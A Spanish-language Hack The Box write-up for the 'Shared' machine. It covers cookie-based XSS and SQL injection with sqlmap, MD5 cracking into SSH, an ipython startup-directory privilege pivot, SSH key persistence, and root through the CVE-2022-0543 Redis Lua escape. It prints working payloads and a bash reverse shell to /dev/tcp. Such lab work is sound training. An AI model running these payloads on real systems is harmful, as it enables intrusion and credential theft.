

pointedsec
if pentester.found == bug { make(pentester,states.happy) }
Hack The Box: Shared Writeup
Welcome to my detailed writeup of the medium difficulty machine “Shared” on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.
TCP Enumeration
$ rustscan -a 10.129.250.135 --ulimit 5000 -g
10.129.250.135 -> [22,80,443]
$ nmap -p22,80,443 -sCV 10.129.250.135 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-07 13:22 CEST
Nmap scan report for 10.129.250.135
Host is up (0.036s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
| 3072 91:e8:35:f4:69:5f:c2:e2:0e:27:46:e2:a6:b6:d8:65 (RSA)
| 256 cf:fc:c4:5d:84:fb:58:0b:be:2d:ad:35:40:9d:c3:51 (ECDSA)
|_ 256 a3:38:6d:75:09:64:ed:70:cf:17:49:9a:dc:12:6d:11 (ED25519)
80/tcp open http nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://shared.htb
443/tcp open ssl/http nginx 1.18.0
| ssl-cert: Subject: commonName=*.shared.htb/organizationName=HTB/stateOrProvinceName=None/countryName=US
| Not valid before: 2022-03-20T13:37:14
|_Not valid after: 2042-03-15T13:37:14
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0
| tls-alpn:
| h2
|_ http/1.1
|_http-title: Did not follow redirect to https://shared.htb
| tls-nextprotoneg:
| h2
|_ http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.09 seconds
Descubrimos el dominio shared.htb , lo añadimos al /etc/hosts
Con openssl s_client -showcerts -connect shared.htb:443 podemos ver el certificado TLS, pero no encontramos nada relevante.
UDP Enumeration
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.250.135 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-07 13:25 CEST
Nmap scan report for 10.129.250.135
Host is up (0.038s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT STATE SERVICE
639/udp closed msdp
782/udp closed hp-managed-node
22611/udp closed unknown
27707/udp closed unknown
49198/udp closed unknown
54321/udp closed bo2k
Nmap done: 1 IP address (1 host up) scanned in 0.84 seconds
HTTP Enumeration
$ whatweb http://shared.htb
http://shared.htb [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.129.250.135], RedirectLocation[https://shared.htb/], nginx[1.18.0]
https://shared.htb/ [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.129.250.135], RedirectLocation[https://shared.htb/index.php], nginx[1.18.0]
https://shared.htb/index.php [200 OK] Cookies[PHPSESSID,PrestaShop-5f7b4f27831ed69a86c734aa3c67dd4c], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], HttpOnly[PHPSESSID,PrestaShop-5f7b4f27831ed69a86c734aa3c67dd4c], IP[10.129.250.135], JQuery, Open-Graph-Protocol[website], PoweredBy[PrestaShop], PrestaShop[EN], Script[application/ld+json,text/javascript], Title[Shared Shop], X-UA-Compatible[ie=edge], nginx[1.18.0]
Parece un PrestaShop
PrestaShop is an Open Source e-commerce web application, committed to providing the best shopping cart experience for both merchants and customers
Por HTTPS me redirecciona al PrestaShop también.
Podemos comprobar si está el típico archivo INSTALL.txt para comprobar la versión del CMS.

Aunque en el footer.
Tras buscar por la versión encuentro varias vulnerabilidades, pero para la mayoría necesito estar autenticado. Existen algunas SQLi pero no es vulnerable parece ser.
Con wfuzz podemos enumerar subdominios, y encontramos uno, checkout.shared.htb , lo añadimos al /etc/hosts
$ wfuzz --hh=169 -c -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.shared.htb' http://shared.htb
/usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer *
********************************************************
Target: http://shared.htb/
Total requests: 114441
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000001: 302 0 L 0 W 0 Ch "www"
000002549: 200 64 L 151 W 3229 Ch "checkout"
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...
Total time: 0
Processed Requests: 2911
Filtered Requests: 2909
Requests/sec.: 0
Un poco extraño este subdominio, y cuando visualmente no tiene buena pinta es por algo..

Podemos añadir un producto al carrito desde el dominio principal y se ve reflejado en este subdominio.
Esto se esta realizando debido a una cookie llamada custom_cart

XSS
Podemos hacer un URL Decode y modificar la cookie mas cómodamente.
{"CRAAFTKP":"1"}
Descubrimos un XSS si inyectamos una etiqueta script en el campo de cantidad
{"CRAAFTKP":"<script>alert(1)</script>"}

SQL Injection
Pero la cosa se pone mas interesante, ya que si por ejemplo, modificamos el nombre del producto..
{"NOEXISTO":"1"}
Esto significa que se está haciendo una consulta por detrás a la base de datos, pasando el valor de esta cookie.
Podemos probar a hacer una SQLi básica de comprobación
{" ' or 1=1-- -":"1"}
Si me representa un objeto significa que esa consulta ha devuelto algo y por lo cual es vulnerable a SQLi.
Vaya.. 
A mi me gusta hacer scripts pero hoy he tenido un día movidito así que vamos a utilizar sqlmap, que tampoco es delito utilizarlo.
Tardamos un poco en conseguir el payload correcto con sqlmap pero tras unos minutos…
$ sqlmap --level 5 --risk 3 -u https://checkout.shared.htb/ --batch --os='linux' --cookie='custom_cart={"*":"1"}' --dbms=mysql
....
sqlmap identified the following injection point(s) with a total of 2903 HTTP(s) requests:
---
Parameter: Cookie #1* ((custom) HEADER)
Type: time-based blind
Title: MySQL > 5.0.12 AND time-based blind (heavy query)
Payload: custom_cart={"' AND 6293=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)-- xuSZ":"1"}
Type: UNION query
Title: Generic UNION query (NULL) - 4 columns
Payload: custom_cart={"' UNION ALL SELECT NULL,CONCAT(0x7178787071,0x5555627a4458716f72716658504b706b58727a6f506a43436b414a5a547a656c42675a624f685453,0x7162627a71),NULL-- -":"1"}
---
[12:07:13] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0
back-end DBMS: MySQL > 5.0.12 (MariaDB fork)
[12:07:13] [INFO] fetched data logged to text files under '/home/pointedsec/.local/share/sqlmap/output/checkout.shared.htb'
Enumerating Database -> Foothold
Y ya podemos ir enumerando con sqlmap
Podemos ver que hay dos bases de datos.
[] checkout
[] information_schema
En la base de datos checkout hay dos tablas.
[2 tables]
+———+
| user |
| product |
+———+
Y dentro de la tabla user encontramos un registro
+----+----------------------------------+-------------+
| id | password | username |
+----+----------------------------------+-------------+
| 1 | fc895d4eddc2fc12f995e18c865cf273 | james_mason |
+----+----------------------------------+-------------+
Podemos revisar en hashes.com y vemos que este hash ya había sido roto anteriormente.
Aunque con hashcat podríamos crackear este hash. Podemos hacer una búsqueda en Google y ver que en la versión 1.7 de PrestaShop se hasheaba las contraeñas en MD5, cosa que también podemos ver visualmente ya que el hash se parece.
hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
...
fc895d4eddc2fc12f995e18c865cf273:Soleil101
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: fc895d4eddc2fc12f995e18c865cf273
Time.Started.....: Wed Aug 7 12:12:09 2024 (1 sec)
Time.Estimated...: Wed Aug 7 12:12:10 2024 (0 secs)
...
Bien, tenemos unas credenciales
james_mason:Soleil101
Mi idea era ganar acceso a través del PrestaShop, pero podemos iniciar sesión con estas credenciales a través del SSH.
$ sshpass -p 'Soleil101' ssh james_mason@shared.htb
Linux shared 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 14 14:45:22 2022 from 10.10.14.4
james_mason@shared:~$ whoami
james_mason
User Pivoting
Vemos que hay otro usuario en la máquina llamado dan_smith
james_mason@shared:/home$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
james_mason:x:1000:1000:james_mason,,,:/home/james_mason:/bin/bash
dan_smith:x:1001:1002::/home/dan_smith:/bin/bash
Podemos ver los archivos del directorio personal de trabajo de dan_smith y vemos un directorio .ipython
Encontramos algunos fallos de seguridad asociados a ipython
https://github.com/advisories/GHSA-pq7m-3gw7-gq5x
En principio, si tengo permiso de escritura en alguna parte del sistema donde el usuario dan_smith esté ejecutando ipython , podría ejecutar comandos como este usuario.
Esto es porque ipython < 8.0.0 ejecuta archivos sin importar de que usuario provengan que estén en el CWD (Current Working Directory). Por lo cual esto permitiría a un usuario ejecutar código como otro.
Bien, primero hay que saber que versión de ipython tiene la máquina víctima.
$ /usr/local/bin/ipython --version
8.0.0
Genial, ahora solo tenemos que descubrir donde podemos aprovecharnos de este fallo.
Como esto es un CTF, me imagino que habrá una tarea cron por detrás de este usuario, podemos compartirnos el pspy64 y ejecutarlo en la máquina víctima.
Y vemos lo siguiente
2024/08/07 06:28:01 CMD: UID=1001 PID=2748 |
2024/08/07 06:28:01 CMD: UID=1001 PID=2749 | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython
2024/08/07 06:28:01 CMD: UID=1001 PID=2750 | /usr/bin/python3 /usr/local/bin/ipython
Vemos que dan_smith está ejecutando ipython en el directorio /opt/scripts_review
dan_smith:x:1001:1002::/home/dan_smith:/bin/bash -> UID 1001
Como pertenecemos al grupo developers, tenemos permiso de escritura en este directorio.
james_mason@shared:/opt$ ls -la
total 12
drwxr-xr-x 3 root root 4096 Jul 14 2022 .
drwxr-xr-x 18 root root 4096 Jul 14 2022 ..
drwxrwx--- 2 root developer 4096 Jul 14 2022 scripts_review
james_mason@shared:/opt$ cd scripts_review/^C
james_mason@shared:/opt$ id
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
Preparamos un archivo /tmp/pwn.py donde vamos a cargar esta reverse shell de revshells.com

Creamos los directorios…
james_mason@shared:/tmp$ mkdir -m 777 /opt/scripts_review/profile_default
james_mason@shared:/tmp$ mkdir -m 777 /opt/scripts_review/profile_default/startup
Copiamos nuestro pwn.py
james_mason@shared:/tmp$ cp pwn.py /opt/scripts_review/profile_default/startup/.
Y nos ponemos en escucha con pwncat-cs por el puerto 443
$ sudo pwncat-cs -lp 443
Al cabo de unos segundos..
$ sudo pwncat-cs -lp 443
/usr/local/lib/python3.11/dist-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
'class': algorithms.Blowfish,
[12:37:00] Welcome to pwncat üêà! __main__.py:164
[12:37:01] received connection from 10.129.250.135:38510 bind.py:84
[12:37:01] 0.0.0.0:443: normalizing shell path manager.py:957
[12:37:02] 10.129.250.135:38510: registered new host w/ db manager.py:957
(local) pwncat$ back
(remote) dan_smith@shared:/opt/scripts_review$ whoami
dan_smith
Y podemos leer la flag de usuario
(remote) dan_smith@shared:/home/dan_smith$ cat user.txt
7d60bf7a99bbf213....
Al cabo de unos segundos perdemos la conexión, así que vamos a agregar mi clave pública de atacante al /home/dan_smith/.ssh/authorized_keys para asegurar persistencia.
$ cp /home/pointedsec/.ssh/id_rsa.pub .
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/shared/content]
└──╼ [★]$ mv id_rsa.pub authorized_keys
Simplemente con pwncat-cs al recibir la conexión.
upload authorized_keys /home/dan_smith/.ssh/authorized_keys
Y ya podemos iniciar sesión mediante SSH.
$ ssh dan_smith@shared.htb
Linux shared 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 14 14:43:34 2022 from 10.10.14.4
dan_smith@shared:~$ whoami
dan_smith
Privilege Escalation
Vemos que el usuario dan_smith pertenece a un grupo sysadmin
dan_smith@shared:~$ id
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
Encontramos un archivo asociado a este grupo.
dan_smith@shared:~$ find / -type f -group sysadmin 2>/dev/null
/usr/local/bin/redis_connector_dev
El archivo es de root y cuando lo ejecutamos…
dan_smith@shared:~$ ls -la /usr/local/bin/redis_connector_dev
-rwxr-x--- 1 root sysadmin 5974154 Mar 20 2022 /usr/local/bin/redis_connector_dev
dan_smith@shared:~$ /usr/local/bin/redis_connector_dev
[+] Logging to redis instance using password...
INFO command result:
# Server
redis_version:6.0.15
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:4610f4c3acf7fb25
redis_mode:standalone
os:Linux 5.10.0-16-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:10.2.1
process_id:3380
run_id:1b607241f518d87566ae2fe57dd9eb15095b42fc
tcp_port:6379
uptime_in_seconds:4
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:11751358
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
io_threads_active:0
<nil>
Me llama la atenci√≥n el mensaje Logging to redis instance using password…
Esto significa que la contraseña debe de estar o dentro del binario, o por alguna parte de la máquina, así que vamos a descubrirlo.
Nos vamos a traer el binario a nuestra máquina.
$ file redis_connector_dev
redis_connector_dev: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, Go BuildID=sdGIDsCGb51jonJ_67fq/_JkvEmzwH9g6f0vQYeDG/iH1iXHhyzaDZJ056wX9s/7UVi3T2i2LVCU8nXlHgr, not stripped
Vemos que es un binario ELF compilado en Go
Podríamos analizar el binario con ghidra pero como este binario intenta entablar una conexión por detrás, podemos con wireshark capturar el tráfico e intentar ver si la contraseña viaja en texto claro.
Para que se tramite la autenticación, primero se comprueba que existe un servicio redis, por lo cual.
sudo apt install redis-server
Iniciamos el servidor
$ redis-server
Y capturamos con wireshark utilizando el siguiente filtro:
tcp.port == 6379
Y al ejecutar el binario..

F2WHqJUz2WEz=Gqq
En la máquina víctima
Podemos comprobar que esta contraseña es válida.
dan_smith@shared:~$ redis-cli -h 127.0.0.1
127.0.0.1:6379> auth F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379>
Vemos que la versión de redis-server es la 6.0.15
127.0.0.1:6379> info server
# Server
redis_version:6.0.15
Tras investigar un rato, podemos encontrar un apartado en vulhub que contiene el CVE-2022-0543
https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md
En este one-liner sucede la magia.
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
Y tenemos ejecución de comandos como root
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
"uid=0(root) gid=0(root) groups=0(root)\n"
La vulnerabilidad surge debido a una configuración incorrecta en el entorno de Lua utilizado por Redis en los paquetes de Debian. Específicamente, los paquetes de Redis en Debian no aislaban adecuadamente el entorno de ejecución de Lua, permitiendo que scripts Lua accedieran a funciones peligrosas del sistema operativo.
Lua, al estar mal configurado, tenía acceso a ciertas bibliotecas internas de Lua que permiten la ejecución de código arbitrario
package.loadlib y ffi: Estas bibliotecas permiten cargar bibliotecas dinámicas del sistema y ejecutar código nativo, lo que un atacante puede utilizar para ejecutar código arbitrario en el servidor Redis.
Vamos a ganar la consola como root
Nos ponemos en escucha con pwncat-cs por el puerto 443
$ sudo pwncat-cs -lp 443
En la máquina víctima nos creamos un pequeño script rev.sh
dan_smith@shared:/tmp$ cat /dev/shm/rev.sh
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.91/443 0>&1"
Ejecutamos este script desde redis aprovechándonos de la vulnerabilidad encontrada anteriormente..
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash /dev/shm/rev.sh", "r"); local res = f:read("*a"); f:close(); return res' 0
(local) pwncat$ back
(remote) root@shared:/var/lib/redis# id
uid=0(root) gid=0(root) groups=0(root)
Podríamos leer la flag de root
(remote) root@shared:/var/lib/redis# cd /root
(remote) root@shared:/root# ls
c.sh root.txt
(remote) root@shared:/root# cat root.txt
567b0aecc4a8a5d4c...
¡Y ya estaría!
Happy Hacking! üöÄ